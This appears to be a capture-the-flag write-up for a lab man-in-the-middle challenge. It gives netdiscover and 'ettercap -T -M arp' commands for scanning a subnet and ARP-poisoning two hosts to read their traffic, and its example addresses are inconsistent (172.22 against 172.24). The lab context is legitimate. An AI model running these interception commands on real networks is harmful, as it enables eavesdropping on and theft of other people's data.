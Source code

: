 # Solving the Network Man-in-the-Middle (MITM) Challenge

## **Step 1: Check Personal IP**
To find the IP address of your own machine:

1. Run the following command in your terminal:
   ```bash
   ifconfig
   ```
  ![image](https://github.com/user-attachments/assets/47d7cca7-863f-4f2b-bfdd-607370229cff)


## **Step 2: Check Commands You Can Run with `sudo -l`**
To find out which commands you can execute with `sudo`:

1. Run:
   ```bash
   sudo -l
   ```
  ![image](https://github.com/user-attachments/assets/5be2c5a2-14eb-4537-be2b-52c53c50f9b8)

   This confirms that you can run `netdiscover` without a password.

---

## **Step 3: Run `netdiscover` on Your Subnet**
To scan the network and identify active devices:

1. Run `netdiscover` with the subnet you found in Step 1:
   ```bash
   sudo netdiscover -r 172.24.0.0/24
   ```

2. Observe the output for a list of IP and MAC addresses on the network. Example:
   ```
   172.22.0.1    00:11:22:33:44:55   router
   172.22.0.2    11:22:33:44:55:66   unknown
   172.22.0.3    22:33:44:55:66:77   unknown
   ```

     ![image](https://github.com/user-attachments/assets/d834f8d8-2355-47d4-aafe-7c39f4d652a1)

   Here, we found:
   - **172.24.0.1**: Likely the router or switch.
   - **172.24.0.2** and **172.24.0.3**: Two machines communicating with each other.

---


## **Step 4: Intercept Traffic with Ettercap**
To perform ARP poisoning and intercept data:

1. Choose one of the target IPs (e.g., `172.22.0.2`) and the other machine (e.g., `172.22.0.3`).

2. Run `ettercap` to perform a MITM attack:
   ```bash
    sudo ettercap -T -M arp ///172.24.0.2

4. Watch the intercepted traffic in real-time within the terminal.

---

By following these steps, you should be able to identify the target devices, intercept their communication, and analyze any secrets being shared between them.
